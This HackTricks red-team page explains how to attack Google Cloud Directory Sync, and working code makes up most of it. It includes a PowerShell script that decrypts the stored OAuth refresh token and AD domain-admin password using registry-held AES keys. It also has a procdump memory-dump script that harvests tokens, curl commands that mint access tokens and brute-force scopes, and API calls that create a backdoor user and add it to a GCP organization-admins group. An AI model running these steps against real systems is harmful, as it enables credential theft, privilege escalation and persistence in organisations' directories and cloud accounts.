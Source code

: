 # GCDS - Google Cloud Directory Sync

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

This is a tool that can be used to **sync your active directory users and groups to your Workspace** (and not the other way around by the time of this writing).

It's interesting because it's a tool that will require the **credentials of a Workspace superuser and privileged AD user**. So, it might be possible to find it inside a domain server that would be synchronising users from time to time.

{% hint style="info" %}
To perform a **MitM** to the **`config-manager.exe`** binary just add the following line in the `config.manager.vmoptions` file: **`-Dcom.sun.net.ssl.checkRevocation=false`**
{% endhint %}

{% hint style="success" %}
Note that [**Winpeas**](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS/winPEASexe) is capable to detect **GCDS**, get information about the configuration and **even the passwords and encrypted credentials**.
{% endhint %}

Also note that GCDS won't synchronize passwords from AD to Workspace. If something it'll just generate random passwords for newly created users in Workspace as you can see in the following image:

<figure><img src="../../../.gitbook/assets/telegram-cloud-photo-size-4-5780773316536156543-x.jpg" alt="" width="515"><figcaption></figcaption></figure>

### GCDS - Disk Tokens & AD Credentials

The binary `config-manager.exe` (the main GCDS binary with GUI) will store the configured Active Directory credentials, the refresh token and the access by default in a **xml file** in the folder **`C:\Program Files\Google Cloud Directory Sync`** in a file called **`Untitled-1.xml`** by default. Although it could also be saved in the `Documents` of the user or in **any other folder**.

Moreover, the registry **`HKCU\SOFTWARE\JavaSoft\Prefs\com\google\usersyncapp\ui`** inside the key **`open.recent`** contains the paths to all the recently opened configuration files (xmls). So it's possible to **check it to find them**.

The most interesting information inside the file would be:

```xml
[...]
<loginMethod>OAUTH2</loginMethod>
<oAuth2RefreshToken>rKvvNQxi74JZGI74u68aC6o+3Nu1ZgVUYdD1GyoWyiHHxtWx+lbx3Nk8dU27fts5lCJKH/Gp1q8S6kEM2AvjQZN16MkGTU+L2Yd0kZsIJWeO0K0RdVaK2D9Saqchk347kDgGsQulJnuxU+Puo46+aA==</oAuth2RefreshToken>
<oAuth2Scopes>
<scope>https://www.google.com/m8/feeds/</scope>
<scope>https://www.googleapis.com/auth/admin.directory.group</scope>
<scope>https://www.googleapis.com/auth/admin.directory.orgunit</scope>
<scope>https://www.googleapis.com/auth/admin.directory.resource.calendar</scope>
<scope>https://www.googleapis.com/auth/admin.directory.user</scope>
<scope>https://www.googleapis.com/auth/admin.directory.userschema</scope>
<scope>https://www.googleapis.com/auth/apps.groups.settings</scope>
<scope>https://www.googleapis.com/auth/apps.licensing</scope>
<scope>https://www.googleapis.com/auth/plus.me</scope>
</oAuth2Scopes>
[...]
<hostname>192.168.10.23</hostname>
<port>389</port>
<basedn>dc=hacktricks,dc=local</basedn>
<authType>SIMPLE</authType>
<authUser>DOMAIN\domain-admin</authUser>
<authCredentialsEncrypted>XMmsPMGxz7nkpChpC7h2ag==</authCredentialsEncrypted>
[...]
```

Note how the **refresh** **token** and the **password** of the user are **encrypted** using **AES CBC** with a randomly generated key and IV stored in **`HKEY_CURRENT_USER\SOFTWARE\JavaSoft\Prefs\com\google\usersyncapp\util`** (wherever the **`prefs`** Java library store the preferences) in the string keys **`/Encryption/Policy/V2.iv`** and **`/Encryption/Policy/V2.key`** stored in base64.

<details>

<summary>Powershell script to decrypt the refresh token and the password</summary>

```powershell
# Paths and key names
$xmlConfigPath = "C:\Users\c\Documents\conf.xml"
$regPath = "SOFTWARE\JavaSoft\Prefs\com\google\usersyncapp\util"
$ivKeyName = "/Encryption/Policy/V2.iv"
$keyKeyName = "/Encryption/Policy/V2.key"

# Open the registry key
try {
    $regKey = [Microsoft.Win32.Registry]::CurrentUser.OpenSubKey($regPath)
    if (-not $regKey) {
        Throw "Registry key not found: HKCU\$regPath"
    }
}
catch {
    Write-Error "Failed to open registry key: $_"
    exit
}

# Get Base64-encoded IV and Key from the registry
try {
    $ivBase64 = $regKey.GetValue($ivKeyName)
    $ivBase64 = $ivBase64 -replace '/', ''
    $ivBase64 = $ivBase64 -replace '\\', '/'
    if (-not $ivBase64) {
        Throw "IV not found in registry"
    }
    $keyBase64 = $regKey.GetValue($keyKeyName)
    $keyBase64 = $keyBase64 -replace '/', ''
    $keyBase64 = $keyBase64 -replace '\\', '/'
    if (-not $keyBase64) {
        Throw "Key not found in registry"
    }
}
catch {
    Write-Error "Failed to read registry values: $_"
    exit
}
$regKey.Close()


# Decode Base64 IV and Key
$ivBytes = [Convert]::FromBase64String($ivBase64)
$keyBytes = [Convert]::FromBase64String($keyBase64)

# Read XML content
$xmlContent = Get-Content -Path $xmlConfigPath -Raw

# Extract Base64-encoded encrypted values using regex
$refreshTokenMatch = [regex]::Match($xmlContent, "<oAuth2RefreshToken>(.*?)</oAuth2RefreshToken>")
$refreshTokenBase64 = $refreshTokenMatch.Groups[1].Value

$encryptedPasswordMatch = [regex]::Match($xmlContent, "<authCredentialsEncrypted>(.*?)</authCredentialsEncrypted>")
$encryptedPasswordBase64 = $encryptedPasswordMatch.Groups[1].Value

# Decode encrypted values from Base64
$refreshTokenEncryptedBytes = [Convert]::FromBase64String($refreshTokenBase64)
$encryptedPasswordBytes = [Convert]::FromBase64String($encryptedPasswordBase64)

# Function to decrypt data using AES CBC
Function Decrypt-Data($cipherBytes, $keyBytes, $ivBytes) {
    $aes = [System.Security.Cryptography.Aes]::Create()
    $aes.Mode = [System.Security.Cryptography.CipherMode]::CBC
    $aes.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7
    $aes.KeySize = 256
    $aes.BlockSize = 128
    $aes.Key = $keyBytes
    $aes.IV = $ivBytes

    $decryptor = $aes.CreateDecryptor()
    $memoryStream = New-Object System.IO.MemoryStream
    $cryptoStream = New-Object System.Security.Cryptography.CryptoStream($memoryStream, $decryptor, [System.Security.Cryptography.CryptoStreamMode]::Write)
    $cryptoStream.Write($cipherBytes, 0, $cipherBytes.Length)
    $cryptoStream.FlushFinalBlock()
    $plaintextBytes = $memoryStream.ToArray()

    $cryptoStream.Close()
    $memoryStream.Close()

    return $plaintextBytes
}

# Decrypt the values
$refreshTokenBytes = Decrypt-Data -cipherBytes $refreshTokenEncryptedBytes -keyBytes $keyBytes -ivBytes $ivBytes
$refreshToken = [System.Text.Encoding]::UTF8.GetString($refreshTokenBytes)

$decryptedPasswordBytes = Decrypt-Data -cipherBytes $encryptedPasswordBytes -keyBytes $keyBytes -ivBytes $ivBytes
$decryptedPassword = [System.Text.Encoding]::UTF8.GetString($decryptedPasswordBytes)

# Output the decrypted values
Write-Host "Decrypted Refresh Token: $refreshToken"
Write-Host "Decrypted Password: $decryptedPassword"
```

</details>

{% hint style="info" %}
Note that it's possible to check this information checking the java code of **`DirSync.jar`** from **`C:\Program Files\Google Cloud Directory Sync`** searching for the string `exportkeys` (as thats the cli param that the binary `upgrade-config.exe` expects to dump the keys).
{% endhint %}

Instead of using the powershell script, it's also possible to use the binary **`:\Program Files\Google Cloud Directory Sync\upgrade-config.exe`** with the param `-exportKeys` and get the **Key** and **IV** from the registry in hex and then just use some cyberchef with AES/CBC and that key and IV to decrypt the info.

### GCDS - Dumping tokens from memory

Just like with GCPW, it's possible to dump the memory of the process of the `config-manager.exe` process (it's the name of the GCDS main binary with GUI) and you will be able to find refresh and access tokens (if they have been generated already).\
I guess you could also find the AD configured credentials.

<details>

<summary>Dump config-manager.exe processes and search tokens</summary>

```powershell
# Define paths for Procdump and Strings utilities   
$procdumpPath = "C:\Users\carlos_hacktricks\Desktop\SysinternalsSuite\procdump.exe"   
$stringsPath = "C:\Users\carlos_hacktricks\Desktop\SysinternalsSuite\strings.exe"   
$dumpFolder = "C:\Users\Public\dumps"   
 
# Regular expressions for tokens 
$tokenRegexes = @( 
    "ya29\.[a-zA-Z0-9_\.\-]{50,}", 
    "1//[a-zA-Z0-9_\.\-]{50,}" 
)
 
# Create a directory for the dumps if it doesn't exist   
if (!(Test-Path $dumpFolder)) {   
    New-Item -Path $dumpFolder -ItemType Directory   
}   
 
# Get all Chrome process IDs   
$chromeProcesses = Get-Process -Name "config-manager" -ErrorAction SilentlyContinue | Select-Object -ExpandProperty Id   
 
# Dump each Chrome process   
foreach ($processId in $chromeProcesses) {   
    Write-Output "Dumping process with PID: $processId"   
    & $procdumpPath -accepteula -ma $processId "$dumpFolder\chrome_$processId.dmp"   
}   
 
# Extract strings and search for tokens in each dump   
Get-ChildItem $dumpFolder -Filter "*.dmp" | ForEach-Object {   
    $dumpFile = $_.FullName   
    $baseName = $_.BaseName 
    $asciiStringsFile = "$dumpFolder\${baseName}_ascii_strings.txt"   
    $unicodeStringsFile = "$dumpFolder\${baseName}_unicode_strings.txt"   
 
    Write-Output "Extracting strings from $dumpFile"   
    & $stringsPath -accepteula -n 50 -nobanner $dumpFile > $asciiStringsFile   
    & $stringsPath -accepteula -n 50 -nobanner -u $dumpFile > $unicodeStringsFile   
 
    $outputFiles = @($asciiStringsFile, $unicodeStringsFile) 
 
    foreach ($file in $outputFiles) { 
        foreach ($regex in $tokenRegexes) { 
 
            $matches = Select-String -Path $file -Pattern $regex -AllMatches 
 
            $uniqueMatches = @{} 
 
            foreach ($matchInfo in $matches) { 
                foreach ($match in $matchInfo.Matches) { 
                    $matchValue = $match.Value 
                    if (-not $uniqueMatches.ContainsKey($matchValue)) { 
                        $uniqueMatches[$matchValue] = @{ 
                            LineNumber = $matchInfo.LineNumber 
                            LineText   = $matchInfo.Line.Trim() 
                            FilePath   = $matchInfo.Path 
                        } 
                    } 
                } 
            } 
 
            foreach ($matchValue in $uniqueMatches.Keys) { 
                $info = $uniqueMatches[$matchValue] 
                Write-Output "Match found in file '$($info.FilePath)' on line $($info.LineNumber): $($info.LineText)" 
            } 
        } 
 
        Write-Output "" 
    } 
} 
 
Remove-Item -Path $dumpFolder -Recurse -Force
```

</details>

### GCDS - Generating access tokens from refresh tokens

Using the refresh token it's possible to generate access tokens using it and the client ID and client secret specified in the following command:

```bash
curl -s --data "client_id=118556098869.apps.googleusercontent.com" \
     --data "client_secret=Co-LoSjkPcQXD9EjJzWQcgpy" \
     --data "grant_type=refresh_token" \
     --data "refresh_token=1//03gQU44mwVnU4CDHYE736TGMSNwF-L9IrTuikNFVZQ3sBxshrJaki7QvpHZQMeANHrF0eIPebz0dz0S987354AuSdX38LySlWflI" \
     https://www.googleapis.com/oauth2/v4/token
```

### GCDS - Scopes

{% hint style="info" %}
Note that even having a refresh token, it's not possible to request any scope for the access token as you can only requests the **scopes supported by the application where you are generating the access token**.

Also, the refresh token is not valid in every application.
{% endhint %}

By default GCSD won't have access as the user to every possible OAuth scope, so using the following script we can find the scopes that can be used with the `refresh_token` to generate an `access_token`:

<details>

<summary>Bash script to brute-force scopes</summary>

```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-Z/\._\-]*' | sort -u | while read -r scope; do 
    echo -ne "Testing $scope           \r"
    if ! curl -s --data "client_id=118556098869.apps.googleusercontent.com" \
     --data "client_secret=Co-LoSjkPcQXD9EjJzWQcgpy" \
     --data "grant_type=refresh_token" \
     --data "refresh_token=1//03PR0VQOSCjS1CgYIARAAGAMSNwF-L9Ir5b_vOaCmnXzla0nL7dX7TJJwFcvrfgDPWI-j19Z4luLpYfLyv7miQyvgyXjGEXt-t0A" \
     --data "scope=$scope" \
     https://www.googleapis.com/oauth2/v4/token 2>&1 | grep -q "error_description"; then
        echo ""
        echo $scope
        echo $scope >> /tmp/valid_scopes.txt
    fi
done

echo ""
echo ""
echo "Valid scopes:"
cat /tmp/valid_scopes.txt
rm /tmp/valid_scopes.txt
```

</details>

And this is the output I got at the time of the writing:

```
https://www.googleapis.com/auth/admin.directory.group
https://www.googleapis.com/auth/admin.directory.orgunit
https://www.googleapis.com/auth/admin.directory.resource.calendar
https://www.googleapis.com/auth/admin.directory.user
https://www.googleapis.com/auth/admin.directory.userschema
https://www.googleapis.com/auth/apps.groups.settings
https://www.googleapis.com/auth/apps.licensing
https://www.googleapis.com/auth/contacts
```

#### Create a user and add it into the group `gcp-organization-admins` to try to escalate in GCP

```bash
# Create new user
curl -X POST \
  'https://admin.googleapis.com/admin/directory/v1/users' \
  -H 'Authorization: Bearer <ACCESS_TOKEN>' \
  -H 'Content-Type: application/json' \
  -d '{
    "primaryEmail": "deleteme@domain.com",
    "name": {
      "givenName": "Delete",
      "familyName": "Me"
    },
    "password": "P4ssw0rdStr0ng!",
    "changePasswordAtNextLogin": false
  }'

# Add to group
curl -X POST \
  'https://admin.googleapis.com/admin/directory/v1/groups/gcp-organization-admins@domain.com/members' \
  -H 'Authorization: Bearer <ACCESS_TOKEN>' \
  -H 'Content-Type: application/json' \
  -d '{
    "email": "deleteme@domain.com",
    "role": "OWNER"
  }'

# You could also change the password of a user for example
```

{% hint style="danger" %}
It's not possible to give the new user the Super Amin role because the **refresh token doesn't have enough scopes** to give the required privileges.
{% endhint %}

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
